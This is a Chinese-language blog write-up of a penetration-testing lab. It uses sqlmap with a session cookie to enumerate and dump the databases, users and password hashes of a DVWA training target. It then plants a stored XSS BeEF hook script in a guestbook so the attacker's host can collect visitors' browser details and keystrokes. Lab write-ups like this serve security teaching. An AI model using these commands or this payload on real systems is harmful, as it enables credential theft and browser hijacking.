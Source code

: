 ```yaml
---
title: 网络渗透实验三
date: 2021-12-01 19:45:23
tags: 网络渗透
cover: https://raw.githubusercontent.com/todis21/image/main/img/wallhaven-1k2zj3_1920x1080.png
---
```


# 网络渗透实验三

## sqlmap的简单使用

### 实战目标

实战1：枚举登录MYSQL数据的用户名与密码

实战2：枚举所有数据库

实战3：枚举指定数据库的数据表

实战4：获取指定数据库和表中所有列的信息

实战5：枚举指定数据表中的所有用户名与密码

### 实验环境

kali（sqlmap）

metasplitable2-Linux（DVWA）

### 实验开始

用kali浏览器打开metasplitable2-Linux的DVWA靶场(admin/password)

把等级调为最低--low

![image-20211201201207598](https://raw.githubusercontent.com/todis21/image/main/img/image-20211201201207598.png)

然后点击sql注入的对应模块

![image-20211201201307588](https://raw.githubusercontent.com/todis21/image/main/img/image-20211201201307588.png)

随便输入一个数字，发现url发生变化

![image-20211201201536176](https://raw.githubusercontent.com/todis21/image/main/img/image-20211201201536176.png)

注入点是在登录后的页面的，所以使用sqlmap还需要获取cookie

按下F12点击console,输入`document.cookie`得到cookie

![image-20211201201737316](https://raw.githubusercontent.com/todis21/image/main/img/image-20211201201737316.png)

sqlmap的基语法参数：

* -u ：指定目标URL，即注入点
* --cookies：当前会话的cookies值
* -b：获取数据库类型，检索数据库管理系统标识
* --current-db：获取当前数据库
* --current-user：获取当前登录数据库使用的用户

[其他命令参数看这里](https://blog.csdn.net/weixin_46709219/article/details/109672641)

打开终端，输入下面的命令

```
sqlmap -u "http://192.168.118.131/dvwa/vulnerabilities/sqli/?id=2&Submit=Submit#" --cookie='security=low; PHPSESSID=94eb2a6ac031fe1058d3fdfb2549346b' -b  --current-db  --current-user
```

![image-20211204162534820](https://raw.githubusercontent.com/todis21/image/main/img/image-20211204162534820.png)

可以看到以下信息：

```
当前数据库"dvwa"
数据库类型"MySQL"
当前登录数据库使用的用户:"root"
```







输入下列命令，获取用户名和密码

* --users：枚举数据库用户名

* --password：枚举数据库用户的密码（hash）

```
sqlmap -u "http://192.168.118.131/dvwa/vulnerabilities/sqli/?id=2&Submit=Submit#" --cookie='security=low; PHPSESSID=94eb2a6ac031fe1058d3fdfb2549346b' --users --password
```

![image-20211204163346626](https://raw.githubusercontent.com/todis21/image/main/img/image-20211204163346626.png)

得到用户名和密码



* --dbs:获取mysql下所有数据库

```
sqlmap -u "http://192.168.118.131/dvwa/vulnerabilities/sqli/?id=2&Submit=Submit#" --cookie='security=low; PHPSESSID=94eb2a6ac031fe1058d3fdfb2549346b' --dbs
```

![image-20211204163820440](https://raw.githubusercontent.com/todis21/image/main/img/image-20211204163820440.png)





获取数据库信息

* -D：指定的数据库
* --dump：存储数据表项

```
sqlmap -u "http://192.168.118.131/dvwa/vulnerabilities/sqli/?id=2&Submit=Submit#" --cookie='security=low; PHPSESSID=94eb2a6ac031fe1058d3fdfb2549346b' -D dvwa --dump
```

![image-20211204164604193](https://raw.githubusercontent.com/todis21/image/main/img/image-20211204164604193.png)



其他命令就不多展示了



## XSS漏洞利用

* 目标：

 	利用Beef劫持客户端浏览器，通过目标主机浏览器获得该主机的详细信息。

* 环境

​	`桥接模式下进行`

​	1．Kali（使用beef生成恶意代码）(192.168.10.128)

​	2．一台web服务器（留言板网站存在XSS跨站脚本漏洞）(192.168.10.117)

​	3.客户端（用于访问web服务器）(192.168.10.107)



### 实验开始：

将附件GuestBook丢进虚拟机里，搭建网站，可在Windows Server利用IIS(Internet Information Server)配置该网站

![image-20211204170342140](https://raw.githubusercontent.com/todis21/image/main/img/image-20211204170342140.png)



搭建完成后访问，http://服务器ip/Message.asp，即`http://192.168.10.117/Message.asp`

在这里有个留言板

![dss](https://raw.githubusercontent.com/todis21/image/main/img/image-20211204202954509.png)

来到kali，用AWVS扫一下，发现存在XSS漏洞

![image-20211204210734444](https://raw.githubusercontent.com/todis21/image/main/img/image-20211204210734444.png)





模仿攻击者攻击

打开终端输入`beef-xss`,得到payload

![image-20211204203620720](https://raw.githubusercontent.com/todis21/image/main/img/image-20211204203620720.png)

```
<script src="http://<kali ip> :3000/hook.js"></script>
我这里的是
<script src="http://192.168.10.128:3000/hook.js"></script>
```



将payload输入到留言板的内容项里，其他的也要填，随便填，E-mail处有格式检验，要符合格式



![image-20211204203857334](https://raw.githubusercontent.com/todis21/image/main/img/image-20211204203857334.png)

填完后，点击留言



来到客户机，即受害者

当受害者打开这个网站，正常的留言后，提交，网页会跳转到http://192.168.10.117/index.asp

![image-20211204204607670](https://raw.githubusercontent.com/todis21/image/main/img/image-20211204204607670.png)

这里已经有着攻击者构造的恶意代码，受害者的主机信息就会返回到攻击者的服务器上

kali(攻击者)已经获得受害者的主机和浏览器信息



![image-20211204205445225](https://raw.githubusercontent.com/todis21/image/main/img/image-20211204205445225.png)



1.Details是浏览器信息

![image-20211204210030531](https://raw.githubusercontent.com/todis21/image/main/img/image-20211204210030531.png)

2.logs模块是键盘记录，即用户执行的鼠标键盘记录

![image-20211204210153841](https://raw.githubusercontent.com/todis21/image/main/img/image-20211204210153841.png)







其他模块查看[这里](https://blog.csdn.net/smli_ng/article/details/106067842)
